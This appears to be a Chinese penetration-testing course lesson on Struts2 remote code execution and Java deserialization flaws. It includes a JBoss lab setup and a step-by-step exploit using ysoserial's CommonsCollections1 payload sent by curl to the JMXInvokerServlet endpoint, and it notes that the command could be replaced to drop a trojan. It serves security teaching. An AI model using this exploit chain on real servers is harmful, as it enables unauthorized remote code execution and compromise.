


# 经典15年i春秋渗透测试系统化教程 - P42：课时6 Struts2、Java反序列化漏洞演示 🔧

在本节课中，我们将学习两种经典的Web漏洞：Struts2远程代码执行漏洞和Java反序列化漏洞。我们将通过演示了解它们的基本原理、影响范围以及简单的利用过程。

---

## Struts2漏洞演示 🎯

上一节我们介绍了命令执行漏洞的概念，本节中我们来看看Struts2框架的远程代码执行漏洞是如何被利用的。

首先，我们需要找到一个存在Struts2漏洞的目标地址。这里我们使用一个演示环境进行说明。

以下是利用Struts2漏洞进行攻击的基本步骤：

1.  **探测与验证**：使用工具探测目标是否存在Struts2漏洞，并验证其可利用性。
2.  **命令执行**：利用漏洞在目标服务器上执行系统命令，例如查看当前目录或网络连接。
    ```bash
    ls -la
    netstat -an
    ```
3.  **文件管理**：获得权限后，可以像操作本地计算机一样管理服务器文件，包括上传或删除文件。
    ```bash
    rm -f malicious_file.jsp
    ```
4.  **信息收集**：浏览服务器目录结构，寻找敏感配置文件，如 `web.xml` 或数据库连接文件。

Struts2漏洞的危害性极高，攻击者一旦利用成功，就相当于获得了服务器的远程控制权，可以进行任意操作。

关于Struts2漏洞的详细分析和利用工具，网上有大量资源。大家可以在安全社区或博客上搜索“Struts2 漏洞分析”或“Struts2 exploit”来深入学习。

---

## Java反序列化漏洞原理与影响 ⚠️

在了解了Struts2漏洞后，我们来看另一个影响深远的漏洞：Java反序列化漏洞。这个漏洞在2015年初被披露，近年来因其广泛的危害性而备受关注。

该漏洞的原理与PHP的反序列化漏洞类似，核心是**对象注入**。当程序对用户可控的序列化数据进行反序列化时，攻击者可以构造恶意数据，导致远程代码执行。


其风险公式可以简化为：
**不可信的反序列化数据 + 存在危险类的类路径 = 远程代码执行**

该漏洞影响范围极广，任何使用了存在漏洞的第三方库（如 Commons Collections）的Java应用都可能受影响，包括WebLogic、WebSphere、JBoss、Jenkins等知名中间件和应用。

---

## JBoss反序列化漏洞实战演示 🖥️



本节我们将以JBoss应用服务器为例，演示Java反序列化漏洞的利用过程。

### 环境搭建

首先，需要在Linux系统（如CentOS 6.5）上搭建一个存在漏洞的JBoss环境。

以下是搭建步骤：

1.  安装Java运行环境。
    ```bash
    yum install java-1.7.0-openjdk*
    ```
2.  下载指定版本的JBoss安装包。
    ```bash
    wget http://download.jboss.org/jbossas/6.1/jboss-as-distribution-6.1.0.Final.zip
    ```
3.  解压并移动到安装目录。
    ```bash
    unzip jboss-as-distribution-6.1.0.Final.zip
    mv jboss-6.1.0.Final /usr/local/jboss
    ```
4.  创建专用用户并启动JBoss。
    ```bash
    useradd jboss
    chown -R jboss:jboss /usr/local/jboss
    su - jboss
    cd /usr/local/jboss/bin
    ./run.sh &
    ```

### 漏洞利用

环境搭建好后，使用专门的攻击工具进行利用。

以下是攻击流程：

1.  **获取工具**：下载ysoserial攻击工具。
    ```bash
    wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
    ```
2.  **生成Payload**：使用工具生成包含恶意命令的序列化数据（Payload）。例如，创建一个测试文件。
    ```bash
    java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections1 "touch /tmp/test123" > payload.ser
    ```
    这条命令会生成一个Payload，其效果是在目标服务器的 `/tmp` 目录下创建一个名为 `test123` 的文件。
3.  **发起攻击**：将Payload发送到JBoss的特定接口（`/invoker/JMXInvokerServlet`）。
    ```bash
    curl http://目标IP:8080/invoker/JMXInvokerServlet --data-binary @payload.ser
    ```
    如果攻击成功，目标服务器的 `/tmp` 目录下就会出现 `test123` 文件。

**关键点说明**：
*   `CommonsCollections1` 是ysoserial工具中利用链的名称，针对不同环境可能需要选择其他利用链。
*   命令 `“touch /tmp/test123”` 可以替换为任何你想在目标服务器上执行的命令，例如下载木马。
*   该漏洞利用通常没有回显，属于“盲攻击”，因此需要配合其他方式（如DNS日志）验证命令是否执行成功。

---

## 总结 📝

本节课中我们一起学习了两种高危漏洞：

1.  **Struts2远程代码执行漏洞**：攻击者可通过构造恶意请求，在目标服务器上直接执行操作系统命令，危害极大。
2.  **Java反序列化漏洞**：由于危险第三方库的广泛使用，该漏洞影响了大量Java应用。攻击者通过提交恶意序列化数据，可触发远程代码执行。




这两种漏洞都直接威胁服务器安全，掌握其原理和基础利用方式，对于理解Web安全攻防至关重要。大家可以在授权环境下搭建测试平台进行深入研究，并关注官方补丁及时修复。